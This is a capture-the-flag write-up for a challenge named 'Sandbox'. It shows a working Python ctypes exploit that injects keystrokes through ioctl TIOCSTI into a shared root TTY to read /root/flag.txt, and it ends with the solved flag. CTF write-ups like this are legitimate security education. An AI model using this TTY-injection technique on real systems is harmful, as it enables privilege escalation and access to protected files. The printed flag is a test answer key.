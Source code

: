 # Sandbox

Author: `cobra`

I made a program where you can practice running commands in a sandboxed environment.

## Solution

Although the sandbox changes the permissions of our user, it does not use a PTY for our shell, so we still have access to the root process's TTY. This means we can inject into `/dev/tty` to run commands as root using ioctl and TIOCSTI.

```python
import ctypes

libc = ctypes.CDLL('libc.so.6')
open = libc.open
open.argtypes = [ctypes.c_char_p, ctypes.c_int]
open.restype = ctypes.c_int
fd = open(b'/dev/tty', 2)
print(fd)

ioctl = libc.ioctl
ioctl.argtypes = [ctypes.c_int, ctypes.c_int, ctypes.c_char_p]
ioctl.restype = ctypes.c_int
TIOCSTI = 0x5412
cmd = '\ncat /root/flag.txt > /tmp/flag.txt\n'
for c in cmd:
    r = ioctl(fd, TIOCSTI, ctypes.c_char_p(c.encode()))
    if r < 0:
        print('ioctl failed')
        break

libc.close(fd)

print('Done')
```
This lets us inject the command `cat /root/flag.txt > /tmp/flag.txt` into the terminal, which will write the flag to a file in `/tmp`. We can simply read this file to get the flag.

```
$ cat /tmp/flag.txt
gigem{n0t_4n_1ssue_1n_ARCH_b7w}
```

flag:
`gigem{n0t_4n_1ssue_1n_ARCH_b7w}`
